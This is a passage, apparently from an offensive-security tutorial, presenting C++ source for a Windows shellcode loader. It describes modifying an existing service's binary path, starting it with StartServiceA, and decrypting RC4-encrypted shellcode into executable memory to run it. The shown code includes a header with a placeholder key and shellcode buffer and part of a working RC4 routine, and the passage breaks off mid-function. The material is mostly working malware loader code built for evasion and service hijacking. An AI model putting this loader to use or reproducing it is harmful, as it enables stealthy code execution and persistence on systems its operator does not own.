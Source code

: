 2. **StartServiceA**: The service is started using `StartServiceA`. If the service starts successfully, the shellcode is then decrypted and executed.

3. **Shellcode Execution**: The shellcode is loaded into a memory location with execute permissions, decrypted, and then executed.


This code demonstrates how to modify a service, start it, and then execute shellcode in memory.

### **1. Header File: `encrypted_payload.h`**
This file remains unchanged and contains the RC4 key and the encrypted shellcode buffer.

```cpp
// encrypted_payload.h
#ifndef ENCRYPTED_PAYLOAD_H
#define ENCRYPTED_PAYLOAD_H

unsigned char key[] = { 0x01, 0x02, 0x03, 0x04 }; // Replace with your actual RC4 key
unsigned char buf[] = {
    0x12, 0x34, 0x56, 0x78, // Encrypted shellcode bytes go here
    0x9A, 0xBC, 0xDE, 0xF0
};

#define BUF_SIZE sizeof(buf)

#endif // ENCRYPTED_PAYLOAD_H
```

### **2. Main Program: `main.cpp`**
This program now includes steps to:

1. **Query the Original Service Configuration**.
2. **Modify the Service's Binary Path**.
3. **Start the Service** and **Execute the Shellcode**.
4. **Restore the Original Service Binary**.

```cpp
#include <windows.h>
#include <iostream>
#include "encrypted_payload.h"

// RC4 decryption function
void RC4(unsigned char* data, size_t data_len, unsigned char* key, size_t key_len) {
    unsigned char S[256];
    unsigned char temp;
    size_t i, j = 0;

    // Initialize S
    for (i = 0; i < 256; i++) {
        S[i] = (unsigned char)i;
    }

    // Key scheduling
    for (i = 0; i < 256; i++) {
        j = (j + S[i] + key[i % key_len]) % 256;
        temp = S[i];
        S[i] = S[j];
        S[j] = temp;
    }

    // Pseudo-random generation and XOR with data
    i = j = 0;
    for (size_t k = 0; k < data_len; k++) {
        i = (i + 1) % 256;
        j = (j + S[i]) % 256;
        temp = S[i];
```
